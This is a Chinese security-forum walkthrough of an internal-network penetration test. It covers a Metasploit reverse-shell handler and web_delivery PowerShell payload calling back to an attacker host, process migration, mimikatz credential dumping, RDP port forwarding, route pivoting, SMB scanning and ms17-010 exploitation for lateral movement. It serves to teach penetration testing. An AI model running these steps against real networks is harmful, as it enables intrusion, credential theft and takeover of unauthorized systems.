


# 【基础向】实战讲解内网渗透思路 - 先知社区

【基础向】实战讲解内网渗透思路

- - -

## 简介

> 本次测试为实战测试，测试环境是授权项目中的一部分，敏感信息内容已做打码处理，仅供讨论学习。由于本人在内网方面的掌握也是属于新手阶段，运用到的一些**msf**攻击手法也很基础，请各位表哥多多指教。

## 获得shell

Getshell的过程没什么好说的，无非简单的后台弱口令到上传然后冰蝎连接getshell。  
获得shell后，模拟终端`ping 8.8.8.8`有返回包，说明该服务器与外网互通。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209134756-73618e86-1a47-1.png)  
既然跟外网互通，那么可以尝试直接使用msf的`exploit/multi/handler`配合冰蝎反弹shell来获得session

```plain
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost xxx.xxx.xxx.xxx
set lport 5665
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191209135404-4ec3890c-1a48-1.png)  
但是结果很不尽人意，没能够成功获得session。  
在使用冰蝎模拟终端收集信息过程中，发现本地有**powershell**进程。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209135548-8c38c8ba-1a48-1.png)  
再次打开**msf**，本次尝试使用`web_delivery`配合终端执行powershell指令来获得session。

```plain
User exploit/multi/script/web_delivery
Set targets 2
set payload windows/x64/meterpreter/reverse_https
set lhost xxx.xxx.xxx.xxx
set lport 4332
set srvport
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191209135830-ecdfee3c-1a48-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209135937-15029c52-1a49-1.png)  
获得payload，使用冰蝎或者C刀模拟终端直接执行，成功获得session，执行`getuid`发现权限为system权限，省去了提权过程。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209140017-2ce8122a-1a49-1.png)

## 权限维持

> 为了获得一个持久稳定的高权限session，我们需要将当前的session进程迁移到一个持久、坚挺又稳定的进程上，防止突然暴毙（咳咳）

我们使用ps查看当前进程，然后选中一个看起来比较持久的幸运儿spoolsv.exe(这是一个用来控制打印的进程，我遇到的机器基本都开启了此进程)  
**注意：**选择进程的时候优先选择系统进程，这种比较持久且为system权限

```plain
migrate 进程号
getpid
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191209140451-d0501d4a-1a49-1.png)

## 内网信息搜集

> 不管是在什么类型的渗透环境下，信息搜集永远是不可缺少的一环，他决定了你渗透的效率，可以让你在渗透过程中少走很多弯路，毕竟在项目上尤其是红蓝攻防中，最缺的永远是时间

接下来，查看IP信息以及arp缓存，查看网段分布情况：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209140655-19d6eae8-1a4a-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209140706-20537814-1a4a-1.png)  
发现该服务器只存在192.168.10.0/24网段的信息  
于是继续查看其他信息

```plain
Netstat -ano
```

发现服务器开放3389端口：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209141402-18b20da4-1a4b-1.png)  
既然开启了3389端口，我们使用端口转发，登录到服务器看看有没有意外收获。

```plain
portfwd add -l 6666 -p 3389 -r 127.0.0.1
```

IP有了，3389开了，现在我们缺少的是用户名密码  
直接**meterpreter**下加载**mimikatz**

```plain
Load mimikatz
Wdigest
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191209142902-30e67f70-1a4d-1.png)  
比较遗憾的是没能获取到明文密码，但是我这边使用**cobalt strike**加载的**mimikatz**成功获取到明文密码  
emmm总之搞不懂的地方先归为玄学问题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209143603-2bae2566-1a4e-1.png)  
现在，密码也有了，mstsc链接目标3389端口成功**此处涉及的敏感信息较多，放弃截图，我尽量用语言表述清楚思路**  
上传**netpass**查看rdp缓存，无果，但是发现系统有**VNC**

> **VNC:**VNC (Virtual Network Console)是虚拟网络控制台的缩写，是一款远程控制工具软件。

查看VNC相关文件发现新的网段信息，但是没有保存的连接信息，不过能获得新的网段信息也是知足了  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209144126-ec323fb6-1a4e-1.png)

## 横向

> 至此，信息收集部分其实也就差不多，接下来我们开始尝试横向移动

根据之前发现的网段信息以及服务器本机的路由信息，我们手动添加路由

```plain
Run autoroute -s 192.168.10.0/24
Run autoroute -s 172.16.0.0/24
……
```

其他网段同理，添加路由之后`bg`退回到控制台  
先使用`auxiliary/scanner/smb/smb_version`模块扫描一下各网段的**smb**服务开启情况

```plain
Use auxiliary/scanner/smb/smb_version
set rhosts 192.168.10.0/24
set threads 10
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191209144539-8317f9b6-1a4f-1.png)  
可以看到，活着的机器还挺多。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209144709-b8b5d868-1a4f-1.png)  
然后，使用`auxiliary/scanner/smb/psexec_loggedin_users`模块配合已获得的两组账户密码进行横向

```plain
Use auxiliary/scanner/smb/psexec_loggedin_users
Set rhosts 192.168.10.0/24
Set smbuser username
Set smbpass password
Set threads 5
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191209144910-00e241ee-1a50-1.png)  
尴尬，横向失败，居然没有用同账户密码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209144830-e950ff84-1a4f-1.png)  
既然横向失败，可以考虑最简单的，但也是最实用的大杀器，ms17-010  
先使用`scanner`模块扫描一下哪些机器可能存在ms17-010的漏洞

```plain
Use auxiliary/scanner/smb/smb_ms17_010
Set rhosts 192.168.10.0/24
Set thread 20
Run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191209145024-2d657c18-1a50-1.png)  
由于打ms17-010的流量比较大，为了防止死掉，我根据扫描出来的结果，针对性的选择一台感觉比较容易搞的目标，单独打。  
此处试了很多机器，好多都打了补丁，不过也有漏网之鱼，此处单独拿一台示例：  
Use auxiliary/admin/smb/ms17\_010\_command  
set rhost 192.168.10.18  
set command whoami  
run  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209145136-57e4b2d8-1a50-1.png)  
成功执行，是system权限，同理command换成弹shell的命令，便可以获得该机器的权限。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191209145151-60f91abc-1a50-1.png)  
获得新机器的权限之后，便可以围绕新机器进行新一轮的信息搜集，然后不断横向，进一步扩大内网战果，以下，就不在多做测试。  
另外对于**ms17-010**，如果说打2003的机器，建议使用`auxiliary/admin/smb/ms17_010_command`模块进行执行命令获得session；其他的可以直接使用`exploit/windows/smb/ms17_010_eternalblue`或者exploit/windows/smb/ms17\_010\_psexec来直接获得session。

## 写在最后

咕某人提醒您：道路千万条，安全第一条；渗透不规范，亲人两行泪。  
以上渗透测试过程纯属本人杜撰，渗透是不可能渗透的，这辈子都不可能渗透的。  
最后，对于过程中有任何疑问都可以评论留言，我会的会一一回复，不会的也能让路过的表哥给康康，说不定表哥就给解决了呢，嘿嘿（发出了白嫖的笑声）。
